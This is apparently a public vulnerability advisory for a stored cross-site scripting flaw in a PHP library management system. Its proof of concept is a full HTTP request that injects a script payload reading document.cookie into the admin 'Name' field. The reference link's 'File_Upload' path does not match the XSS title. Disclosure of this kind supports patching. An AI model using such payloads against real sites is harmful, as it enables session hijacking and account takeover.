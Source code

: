 #### Title: Library Management System with QR code Attendance 1.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.md

#### Description：
#### Library Management System with QR code Attendance is vulnerable to Stored cross-site scripting on the profile edit page. The "Name" parameter in 'http://localhost/LMS/admin/edit_admin_details.php' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

### POC

```
POST /LMS/admin/edit_admin_details.php?id=admin HTTP/1.1
Host: localhost
Content-Length: 115
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/admin/edit_admin_details.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

Name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&EmailId=admin%40gmail.com&MobNo=0&Password=admin&submit=
```
